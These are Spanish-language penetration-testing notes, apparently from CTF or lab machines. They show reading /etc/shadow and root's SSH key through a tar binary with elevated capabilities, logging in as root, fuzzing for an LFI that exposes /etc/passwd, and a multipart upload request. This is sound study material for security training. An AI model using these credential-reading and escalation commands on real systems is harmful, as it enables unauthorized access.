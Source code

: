 - Para reducir una wordlist
```
grep -n "Stella$" /usr/share/wordlists/rockyou.txt 
sed -n '200,300p' /usr/share/wordlists/rockyou.txt >> rockyoureducido.txt
```

- Observo capabilities siempre fijarnos en **ep** que ejecuta con **privs elevados**
```bash
getcap -r / 2>/dev/null 
/usr/bin/tarS = cap_dac_read_search+ep
```
- **tarS** es una funcionalidad alternativa de **tar** en esta máquina
- Como podemos ejecutarlo con permisos elevados, podemos empaquetar lo que queremos, inclusio ver el **/etc/shadow**, ver hashes y petar alguno como el de **root**
- Buscamos con intención si existe una clave privada para root, para acceder por **ssh sin password**
```bash
tar -cvf /etc/shadow /etc/shadow
tar -cvf id_rsa /root/.ssh/id_rsa
cat id_rsa
#Ver si la clave es válida
ssh-keygen -l -f id_rsa
```

- Nos la llevamos a kali
```bash
ssh -i id_rsa -p 2082 root@votenow.local
```

## Infovore

	- filtramos por **disable_functions** en el archivo **info.php**
- Filtrar por user en **info.php**
- Filtrar por file_uploads: **On** --> buscar en google para encontrar la vuln de **LFI**
>Podemos ver que funciones o comandos están deshabilitados

- Recon
```bash
wfuzz -c --hc=404,400,403,500 -w /home/kuser/cosas/repositorios/SecLists/Discovery/Web-Content/common.txt   http://192.168.1.141/FUZZ 
wfuzz -c --hl=136 --hc=404,400,403,500 -w /home/kuser/cosas/repositorios/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt   http://192.168.1.141/index.php?FUZZ=/etc/passwd
```

> Encontramos http://192.168.1.141/index.php?filename=/etc/passwd
> Eso es que podemos visitar algún archivo

- subida de archivos desd info.php con **boundary**, ponemos los límites con ese etxto "esteesellimite"
```BURP
Content-Type: multipart/form-data; boundary=----esteesellimite
Content-Length: 186

------esteesellimite
Content-Disposition: form-data; name="file"; filename="sexe.txt"
Content-Type: plain/text

sexazo
------esteesellimite
```
